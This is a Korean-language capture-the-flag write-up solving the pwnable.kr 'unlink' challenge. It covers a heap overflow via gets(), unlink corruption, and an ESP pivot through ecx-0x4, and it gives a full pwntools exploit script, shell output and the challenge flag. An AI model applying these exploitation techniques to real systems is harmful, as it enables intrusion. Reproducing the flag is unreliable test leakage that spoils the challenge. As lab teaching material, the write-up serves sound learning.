

# unlink - 10 pt

## 문제

```
Daddy! how can I exploit unlink corruption?

ssh unlink@pwnable.kr -p2222 (pw: guest)
```

## 풀이

코드를 보면서 문제의 개략적인 목표를 찾아보도록 하겠다.

```c
typedef struct tagOBJ{
        struct tagOBJ* fd;
        struct tagOBJ* bk;
        char buf[8];
}OBJ;
```

`fd`와 `bk`가 있는 구조체이다. 각각은 자신의 앞 또는 뒤 구조체 데이터 블록을 가르키도록 `main` 함수에서 하드코딩 되어있다.

```c
void shell(){
        system("/bin/sh");
}
```

이 문제의 목적은 확실하게 실행흐름을 `shell` 함수로 바꾸는 것이라고 생각된다.

```c
void unlink(OBJ* P){
        OBJ* BK;
        OBJ* FD;
        BK=P->bk;
        FD=P->fd;
        FD->bk=BK;
        BK->fd=FD;
}
```

`OBJ` 구조체 블록의 연결을 끊으면서 자신의 `fd`와 `bk`가 각각 가르키고 있는 구조체 블록을 서로 연결시켜준다. 보는게 이해하는데 더 빠를듯;;



```c
int main(int argc, char* argv[]){
        malloc(1024);
        OBJ* A = (OBJ*)malloc(sizeof(OBJ));
        OBJ* B = (OBJ*)malloc(sizeof(OBJ));
        OBJ* C = (OBJ*)malloc(sizeof(OBJ));

        // double linked list: A <-> B <-> C
        A->fd = B;
        B->bk = A;
        B->fd = C;
        C->bk = B;

        printf("here is stack address leak: %p\n", &A);
        printf("here is heap address leak: %p\n", A);
        printf("now that you have leaks, get shell!\n");
        // heap overflow!
        gets(A->buf);

        // exploit this unlink!
        unlink(B);
        return 0;
}
```

`A` 구조체의 `buf`에 입력 데이터를 넣고 `B`를 `unlink` 함수로 연결을 끊는다. `gets`에서 힙 오버플로우가 발생하게 되어서 뒤에 있는 `B`, `C` 구조체를 조작할 수 있게 된다.

문제를 하루정도 잡고 있었는데, 여러가지를 시도해 봤다.

- 간단하게 `B.fd`에 `main` 함수 리턴 어드레스와 `B.bk`에 `shell` 함수의 주소를 넣어서 실행흐름을 바꾼다.
  - `unlink`를 하면 `B.fd` 주소의 값과 `B.bk` 주소의 값이 서로 바뀐다. 그래서 코드 영역에 접근하려다 세그폴트나고 죽는다ㅋ
- `A.buf`에 `jmp $shell`과 같은 어셈 코드를 넣고 위처럼 실행흐름을 Heap으로 넘긴다.
  - 일단 위에서 말한 것처럼 값이 서로 뒤바뀌는 거여서 주소에 적어놓은 코드가 변조된다ㅋ... 거기다가 바이너리에 NX가 걸려있어서 코드가 실행 될지는 미지수...

이 노가다를 하루 종일 하다가 깨달은 건 `shell` 함수를 Heap에 저장해 놓고 리턴 주소를 직접적으로 `shell` 함수 주소로 바꾸지 않고 `shell` 함수를 간접적으로 참조하게 하는 로직을 찾아야 한다는 것이다. 아무리 봐도 어디서 해야되는 거지하고 봤는데... [이 블로그](https://go-madhat.github.io/pwnable.kr-unlink/)를 살짝살짝 읽다가, 답을 찾았다.

```assembly
0x0804852f <+0>:     lea    ecx,[esp+0x4]
0x08048533 <+4>:     and    esp,0xfffffff0
0x08048536 <+7>:     push   DWORD PTR [ecx-0x4]
0x08048539 <+10>:    push   ebp
0x0804853a <+11>:    mov    ebp,esp
...
0x080485fa <+203>:   mov    eax,0x0
0x080485ff <+208>:   mov    ecx,DWORD PTR [ebp-0x4]     <- 여기, 결국 EBP-0x4 값만 컨트롤 하면 EIP를 변조할 수 있게 된다.
0x08048602 <+211>:   leave
0x08048603 <+212>:   lea    esp,[ecx-0x4]               <- 여기
0x08048606 <+215>:   ret
```

처음 문제를 보고 풀때 왜 저런 방식으로 함수 프롤로그를 여는지 궁금해서 구글에 쳐봤는데 컴파일러의 속마음을 아는 사람은 없었는지 이유를 찾지 못했다. 그러나 중요한 점은 이게 리턴 주소를 단순히 스택에 집어 넣고 `leave ret`으로 돌아가는 것이 아니라 `ECX` 범용 레지스터를 사용해서 간접적으로 참조를 시킨다는 것이다. 다시 말하지만 아직도 왜 이렇게 컴파일러가 하는지는 찾지 못했다. 뭐 주소 정렬하려고 이렇게 했나 모르겠다. 

`lea esp,[ecx-0x4]` 코드를 활용하면 `shell` 함수의 주소를 간접적으로 가져올수 있다! 예에에~

위에서 하려고 했던 익스플로잇의 한계점은 이랬다.

- 읽기 영역인 코드 영역을 침범했다.
  - 이번에는 Heap과 Stack에 있는 값을 변조할 것이기 때문에 세그폴트는 나지 않는다!
- 값이 서로 뒤바뀌어서 직접적으로 값을 참조할 수 없다.
  - `ESP`를 변조하는 값이 `[ecx-0x4]`이기 때문에 서로 뒤바뀐 값이 들어있는 영역이 아니라 그 전 4바이트를 사용할 수 있다. 여기에 `shell` 함수의 주소를 넣으면 된다.

아래는 위에서 설명한 방법을 사용하는 익스플로잇 코드다.

```python
from pwn import *

p = process("/home/unlink/unlink")
d = p.recvuntil("get shell!")
print d

# 문제에서 주어진 Stack, Heap, Shell 함수의 주소를 가져온다.
stack = int(d.split(":")[1].split()[0].strip(),16)
heap = int(d.split(":")[2].split()[0].strip(),16)
shell = "\xeb\x84\x04\x08"

# 페이로드를 구성한다.
payload = ""
payload += shell+'A'*12         # A.buf[8] = Shell 함수 4바이트 + "A"*4
payload += p32(stack + 0xc)     # B.fd = EBP-0x4 위치를 주어진 Stack 주소에서 계산해 넣는다.
payload += p32(heap + 0xc)      # A.buf+4 = ecx-0x4를 참조하기 때문에 A.buf+4 주소를 넣는다.

print repr(payload)

p.send(payload)
print p.recvline()
p.interactive()
```

실행하면... 우헤헷

```bash
unlink@ubuntu:~$ python /tmp/nvm.py
[+] Starting local process '/home/unlink/unlink': Done
here is stack address leak: 0xff974b84
here is heap address leak: 0x929e410
now that you have leaks, get shell!
'\xeb\x84\x04\x08AAAAAAAAAAAA\x90K\x97\xff\x1c\xe4)\t'


[*] Switching to interactive mode
$ ls
flag  intended_solution.txt  unlink  unlink.c
$ cat flag
conditional_write_what_where_from_unl1nk_explo1t
```